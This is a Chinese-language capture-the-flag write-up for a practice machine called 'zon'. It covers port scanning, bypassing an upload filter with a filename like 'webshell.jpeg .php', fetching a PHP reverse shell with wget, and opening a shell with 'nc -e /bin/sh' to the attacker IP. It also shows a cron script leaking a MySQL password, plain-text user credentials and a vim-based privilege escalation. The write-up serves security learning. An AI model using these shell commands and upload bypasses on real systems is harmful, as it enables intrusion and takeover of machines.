 ```yaml
---
title: zon
tags:
  - sec
date: 2024-02-11T10:52:40
lastmod: 2025-09-29T20:52:08
toc: "true"
---
```

## 启动机器
得指定网络接口
```bash
sudo arp-scan -I eth5 -l
```
![HMM_zon_image_1](https://img.l1uyun.one/HMM_zon_image_1.png)

## 端口扫描

```bash
sudo rustscan -a 192.168.10.13 -r 1-65535 -t 8000 --ulimit 5000

sudo nmap 192.168.10.13 -sT -Pn -p22,80 -sV -sC -O -oN portscan/norm


sudo nmap 192.168.10.13 -sT -Pn -p22,80 --script=vuln -oN portscan/vuln
```

![HMM_zon_image_2](https://img.l1uyun.one/HMM_zon_image_2.png)

![HMM_zon_image_3](https://img.l1uyun.one/HMM_zon_image_3.png)

## 利用空格绕过文件上传过滤
![HMM_zon_image_4](https://img.l1uyun.one/HMM_zon_image_4.png)

测试之后是检查文件名, 而不是文件头, 而且图片马不能正常解析
![HMM_zon_image_5|750](https://img.l1uyun.one/HMM_zon_image_5.png)
- 非 jpeg 格式的无法上传
![HMM_zon_image_6](https://img.l1uyun.one/HMM_zon_image_6.png)

- jpeg 格式能够正常上传
![HMM_zon_image_7](https://img.l1uyun.one/HMM_zon_image_7.png)
![HMM_zon_image_8](https://img.l1uyun.one/HMM_zon_image_8.png)
后面尝试了图片马, 但是没有正常解析, 无法执行命令

使用空格绕过
```bash
"webshell.jpeg .php"
```
![HMM_zon_image_9](https://img.l1uyun.one/HMM_zon_image_9.png)


一句话木马, 获得 webshell
![HMM_zon_image_10](https://img.l1uyun.one/HMM_zon_image_10.png)
freddie
## webshell
上传一个反向 shell
```bash
wget http://192.168.10.11:8000/php-reverse-shell.php -O /tmp/shell.php
```


吐了, 不清楚为啥反向 shell, 不稳定, 执行不了命令, 使用 nohup 也没有稳定下来

```bash
nohup nc -e /bin/sh 192.168.10.11 1234
```
![HMM_zon_image_11|650](https://img.l1uyun.one/HMM_zon_image_11.png)

## 利用脚本中泄露的mysql密码
```bash

#!/bin/bash

# script that checks the database's integrity every minute

dump=/dev/shm/dump.sql
log=/var/log/db_integrity_check.log
true > "${log}"

/usr/bin/mysqldump -u admin -pudgrJbFc6Av#U3 admin credentials > "${dump}"
/usr/bin/sed -i '$d' "${dump}"

hash="29d8e6b76aab0254f7fe439a6a5d2fba64270dde087e6dfab57fa57f6749858a"
check_hash=$(sha256sum "${dump}" | awk '{print $1}')

if [[ "${hash}" != "${check_hash}" ]] ; then
  /usr/bin/wall "Alert ! Database hacked !"
  /usr/bin/du -sh /var/lib/mysql >> "${log}"
  /usr/bin/vmstat 1 3 >> "${log}"
else
  /usr/bin/sync && /usr/bin/echo 3 > /proc/sys/vm/drop_caches
  /usr/bin/echo "$(date) : Integrity check completed for ${dump}" >> "${log}"
fi

```

最后使用 meterpreter 的这个更高级的 shell 成功了
![HMM_zon_image_12](https://img.l1uyun.one/HMM_zon_image_12.png)
## user. txt PWD
```bash
Freddie  | LDVK@dYiEa2I1lnjrEeoMif 
```
![HMM_zon_image_13](https://img.l1uyun.one/HMM_zon_image_13.png)
```bash
ssh freddie@192.168.10.11
LDVK@dYiEa2I1lnjrEeoMif 
```
## 提权

这个逻辑真的没弄懂 ,好像是先配置这个报告程序, 然后利用利用新增报告的功能点, 打开 vim, 然后获取 root
用 GPT 梳理一下逻辑
![HMM_zon_image_14|850](https://img.l1uyun.one/HMM_zon_image_14.png)

![HMM_zon_image_15|650](https://img.l1uyun.one/HMM_zon_image_15.png)
![HMM_zon_image_16|423](https://img.l1uyun.one/HMM_zon_image_16.png)
![HMM_zon_image_17|700](https://img.l1uyun.one/HMM_zon_image_17.png)